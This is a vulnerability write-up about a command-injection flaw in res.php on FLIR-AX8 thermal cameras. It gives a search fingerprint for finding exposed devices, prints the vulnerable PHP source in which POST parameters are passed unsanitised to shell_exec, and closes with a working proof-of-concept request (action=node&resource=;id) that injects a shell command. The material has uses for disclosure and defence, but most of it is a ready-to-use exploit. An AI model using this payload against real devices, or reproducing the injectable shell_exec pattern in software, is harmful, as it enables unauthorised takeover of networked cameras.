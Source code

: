 # FLIR-AX8 res.php background command execution vulnerability

## Vulnerability Description

The FLIR-AX8 res.php file has a background command execution vulnerability. The attacker logs into the background through the default password and obtains server permissions.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">FLIR-AX8</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="FLIR-FLIR-AX8"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1662985620542-08eeac2c-70ee-475d-979d-52f4c9ec3be4.png)

The file with the vulnerability is **res.php**

```sql
<?php
	if (isset($_POST["action"])) {
		switch ($_POST["action"]) {
			case "get":
				if(isset($_POST["resource"]))
				{
					switch ($_POST["resource"]) {
						case ".rtp.hflip":
							if (!file_exists("/FLIR/system/journal.d/horizontal_flip.cfg")) {
								$result = "false";
								break;
							}
							$result = file_get_contents("/FLIR/system/journal.d/horizontal_flip.cfg") === "1" ? "true" : "false";
							break;
						case ".rtp.vflip":
							if (!file_exists("/FLIR/system/journal.d/vertical_flip.cfg")) {
								$result = "false";
								break;
							}
							$result = file_get_contents("/FLIR/system/journal.d/vertical_flip.cfg") === "1" ? "true" : "false";
							break;
						default:
							$result = trim(shell_exec("LD_LIBRARY_PATH=/FLIR/usr/lib /FLIR/usr/bin/rls -o ".$_POST["resource"]));
					}
				}
				break;
			case "set":
				if(isset($_POST["resource"]) and isset($_POST["value"])) {
					switch ($_POST["resource"]) {
						case "rtp.hflip":
							file_put_contents("/FLIR/system/journal.d/horizontal_flip.cfg", $_POST["value"] === "true" ? "1" : "0");
							break;
						case "rtp.vflip":
							file_put_contents("/FLIR/system/journal.d/vertical_flip.cfg", $_POST["value"] === "true" ? "1" : "0");
							break;
						default:
							$result = trim(shell_exec("LD_LIBRARY_PATH=/FLIR/usr/lib /FLIR/usr/bin/rset ".$_POST["resource"]." ".$_POST["value"]));;
					}
				}

				break;
			case "measurement":
				if (isset($_POST["type"]) && isset($_POST["id"])) {
					$nodeData =  trim(shell_exec("LD_LIBRARY_PATH=/FLIR/usr/lib /FLIR/usr/bin/rls -i .image.sysimg.measureFuncs.".$_POST["type"].".".$_POST["id"]));
					$lines = explode("\n", $nodeData);
					foreach($lines as $line)
					{
						$resource = preg_split('/\s+/', $line);
						$value = trim($resource[1], "\"");
						$result[$resource[0]] = $value;
					}
				}
				break;
			case "global-parameters":
				$nodeData =  trim(shell_exec("LD_LIBRARY_PATH=/FLIR/usr/lib /FLIR/usr/bin/rls -i .image.sysimg.basicImgData.objectParams"));
				$lines = explode("\n", $nodeData);
				foreach($lines as $line)
				{
					$resource = preg_split('/\s+/', $line);
					$result[$resource[0]] = $resource[1];
				}
			case "alarm":
				if(isset($_POST["id"]))
				{
					$nodeData = trim(shell_exec("LD_LIBRARY_PATH=/FLIR/usr/lib /FLIR/usr/bin/rls .image.sysimg.alarms.measfunc.".$_POST["id"]));
					$lines = explode("\n", $nodeData);
					foreach($lines as $line)
					{
						$resource = preg_split('/\s+/', $line);
						$value = trim($resource[1], "\"");
						$result[$resource[0]] = $value;
					}
				}
				break;
			case "calibrate":
				$result = shell_exec("LD_LIBRARY_PATH=/FLIR/usr/lib /FLIR/usr/bin/nuc");

				break;
			case "node":
				$nodes = trim(shell_exec("LD_LIBRARY_PATH=/FLIR/usr/lib /FLIR/usr/bin/rls ".$_POST["resource"]));
				$result = preg_split("/\s+\n/", $nodes);
				break;
		}
		echo json_encode($result);
	}
?>
```

Verify POC

```sql
POST /res.php

action=node&resource=;id
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1662987302792-cb7e9b62-7682-4e34-a152-171922292c7d.png)
